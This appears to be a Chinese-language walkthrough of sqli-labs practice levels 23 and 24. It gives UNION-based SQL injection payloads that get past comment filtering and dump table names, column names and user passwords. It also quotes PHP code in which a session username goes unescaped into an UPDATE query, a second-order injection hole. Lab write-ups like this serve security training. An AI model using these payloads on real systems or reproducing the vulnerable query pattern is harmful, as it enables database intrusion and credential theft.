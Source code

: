 # sqli-labs靶场(4)绕过


sqli-labs靶场精简记录23-31



### Less-23 GET - Error based - strip comments 

基于错误的，过滤注释的GET型

注释符号被过滤了

bypass

```
?id=1' or '1'='1
```

payload

```
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 or '1'='1
 
 
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' ),3 or '1'='1
 
 
?id=-1' union select 1,(select group_concat(password,username) from users),3 or '1'='1
```

### Less - 24 Second Degree Injections *Real treat* -Store Injections 

二次注入

```php
#login.php
function sqllogin(){

   $username = mysql_real_escape_string($_POST["login_user"]);
   $password = mysql_real_escape_string($_POST["login_password"]);
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
...
      $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
      
      
#pass_change.php
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
